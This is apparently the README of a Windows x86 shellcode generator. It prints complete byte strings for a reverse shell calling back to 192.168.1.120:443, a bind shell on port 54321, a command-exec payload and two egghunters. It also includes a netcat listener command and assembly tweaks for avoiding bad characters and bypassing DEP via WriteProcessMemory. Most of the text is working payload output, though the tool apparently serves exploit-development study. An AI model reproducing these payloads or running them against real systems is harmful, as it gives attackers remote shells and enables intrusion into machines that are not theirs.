 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```


## Examples

### Reverse Shell

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x15f (351)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x0e\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xf9\x1d\x7f\xc3\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x1e\x9a\x0c0\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xff\x9aH\x1a\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh2\xa6\xc3\x1a\xffU\x04VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\x98\xb1\x89\xef\xffU\x041\xc9Qj\xffh\xc2Y\xfc\xe6\xffU\x04'
```

### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' bind -p 54321
# shellcode size: 0x170 (368)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca)\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xca\xcc~E\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xb8\xe0i\xa1\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xa9\x1f\xbe\xc0\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVh\xa5L\x1a\x97\xffU\x041\xc0PVh\xd4f\xfd\xc5\xffU\x041\xc0PPVh\xda\xa4!k\xffU\x04\x89\xc6VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh<\xc6ry\xffU\x041\xc9Qj\xffh\xc6\xbaHp\xffU\x04'
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' exec -c 'calc'
# shellcode size: 0xba (186)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate developing shellcodes that do not contain bad characters and do not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

Suppose [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used. In that case, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes and some instructions in the shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0C\x0D\x20\x23\x25\x26\x2B\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
...
# bad chars were found in the shellcode
...
[ ] ebf4         : jmp 0x58
[x] eb2b         : jmp 0x91
[ ] 5e           : pop esi
[ ] 8b36         : mov esi, dword ptr [esi]
[ ] ebb9         : jmp 0x24
[ ] 3b542428     : cmp edx, dword ptr [esp + 0x28]
[ ] 75d6         : jne 0x47
[ ] 8b5724       : mov edx, dword ptr [edi + 0x24]
[ ] 01da         : add edx, ebx
[x] 668b0c4a     : mov cx, word ptr [edx + ecx*2]
[ ] 8b571c       : mov edx, dword ptr [edi + 0x1c]
...
```


## Replace Instructions

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x0C and 0x2B can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
...
    jmp   compute_hash_again        // Next iteration

find_and_call_hop:
    jmp   find_and_call_end
    nop                             // * FOR BAD CHAR 0x2B *
    nop                             // * FOR BAD CHAR 0x2B *

get_next_module:
    pop   esi                       // Restore InInitOrder
    mov   esi, [esi]                // ESI = InInitOrder[X].flink (next)
    jmp   next_module

find_function_compare:
    cmp   edx, [esp+0x28]           // Compare the computed hash with the requested hash
    jnz   find_function_loop        // If it doesn't match go back to find_function_loop
    mov   edx, [edi+0x24]           // AddressOfNameOrdinals RVA
    add   edx, ebx                  // AddressOfNameOrdinals VMA
    //; mov   cx,  [edx+2*ecx]          // Extrapolate the function's ordinal
    mov   ax,  [edx+2*ecx]          // * FOR BAD CHAR 0x0C *
    mov   cx, ax                    // * FOR BAD CHAR 0x0C *
    mov   edx, [edi+0x1C]           // AddressOfFunctions RVA
...
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```

On 192.168.1.120

```
nc -nlvp 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

